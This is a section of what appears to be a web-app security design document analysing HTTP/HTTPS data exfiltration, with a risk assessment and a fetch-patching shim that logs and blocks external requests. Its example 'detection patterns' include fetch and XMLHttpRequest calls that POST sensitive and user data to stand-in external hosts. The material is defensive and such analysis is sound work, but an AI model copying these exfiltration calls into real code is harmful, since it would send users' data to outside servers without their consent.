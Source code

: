 
## Exfiltration Method Analysis

### 1. HTTP/HTTPS Requests

#### **Method Description**
Standard web requests to external servers, the most common exfiltration vector.

#### **Detection Patterns**
```javascript
// Intercepted patterns
fetch('https://external-domain.com/api', {
  method: 'POST',
  body: JSON.stringify(sensitiveData)
});

// XMLHttpRequest patterns
const xhr = new XMLHttpRequest();
xhr.open('POST', 'https://analytics.external.com/track');
xhr.send(userData);
```

#### **Risk Assessment**
- **Likelihood**: VERY HIGH (99% of web apps use external requests)
- **Impact**: CRITICAL (Can transmit any data)
- **Detection Difficulty**: LOW (Easy to intercept)
- **Stealth Level**: LOW (Visible in network logs)

#### **Prevention Implementation**
```typescript
// Fetch API patching
const originalFetch = window.fetch;
window.fetch = async (...args) => {
  const url = typeof args[0] === 'string' ? args[0] : args[0].url;
  
  if (isExternalDomain(url)) {
    await logExfiltrationAttempt('HTTP_REQUEST', url, args[1]?.body);
    
    // Check for local alternative
    const alternative = getLocalAlternative(url);
    if (alternative) {
      return alternative.handler(args[1]?.body, url);
    }
    
    throw new Error(`External request blocked: ${url}`);
  }
  
  return originalFetch.apply(this, args);
};
```

#### **Local Alternatives**
- **Analytics**: Local IndexedDB storage with identical API
- **Error Reporting**: Local error logs with stack traces
- **API Calls**: Mock responses or local API endpoints

---